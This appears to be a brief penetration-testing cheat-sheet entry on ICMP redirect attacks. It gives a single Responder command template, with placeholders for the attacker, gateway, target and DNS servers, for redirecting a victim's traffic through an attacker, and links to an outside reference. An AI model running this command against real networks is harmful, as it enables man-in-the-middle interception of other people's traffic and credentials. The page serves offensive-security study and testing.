 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - sniffing-and-spoofing
  - responder
---
```

# ICMP Redirect

## Responder

```
# responder-Icmp-Redirect -I <interface> -i <attacker_IP> -g <gateway_IP> -t <target_IP> -r <dns_server> -s <second_dns_server>
```

---
## References

### The Hacker Recipes

- [The Hacker Recipes: ICMP Redirect](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/icmp-redirect)